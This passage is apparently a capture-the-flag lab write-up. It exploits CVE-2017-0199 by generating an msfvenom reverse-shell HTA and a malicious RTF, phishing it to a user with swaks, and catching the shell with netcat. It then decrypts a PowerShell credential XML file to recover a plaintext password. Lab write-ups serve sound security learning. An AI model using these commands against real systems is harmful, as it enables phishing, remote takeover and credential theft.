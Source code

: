 ```bash
Revision Number                 : 4
Create Date                     : 2017:10:31 18:42:00Z
Modify Date                     : 2017:10:31 18:51:00Z
Template                        : Normal.dotm
Total Edit Time                 : 5 minutes
Pages                           : 2
Words                           : 299
Characters                      : 1709
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 14
Paragraphs                      : 4
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : 
Links Up To Date                : No
Characters With Spaces          : 2004
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 14.0000
```
Doing some research we identify that there is a potential vulnerability on RTF which allows RCE on the victim machine, so in order to exploit it we found the [CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199) github exploit as we can see all we need to do is to create a `HTA`  file that will be referenced from within the RTF file and execute its content since it containts powershell within:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=443 -f hta-psh -o shell.hta
```
Then we use the github script to create the RTF file that will be delivered to the user:
```bash
python2 /opt/CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://10.10.16.2/shell.hta
```
We need to serve the created files via web server, we do this with python and finally using SWAKS[^swaks] we send our payload as attachment to the victim:
```bash
swaks --to nico@megabank.com --from shuciran@shuciran.com --body "http://10.10.16.2" --header "Subject: RTF format procedure" --attach Invoice.rtf
```
After a while we end up with a reverse shell on our attacker machine:
```bash
rlwrap nc -lvnp 443          
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
### Horizontal privilege escalation

Once inside the machine we know that we are logged in as user nico, but we need to move horizontally in order to achieve a root privesc, we find inside the nico's Desktop folder a creds.xml[^creds-xml] file which is an exported credential file on XML format that we can abuse to retrieve the plaintext password from tom (whose credentials belongs):
```bash
C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
```

[^swaks]: SWAKS tool for SMTP Client-Side Attacks
[^creds-xml]: Creds.xml deobfuscation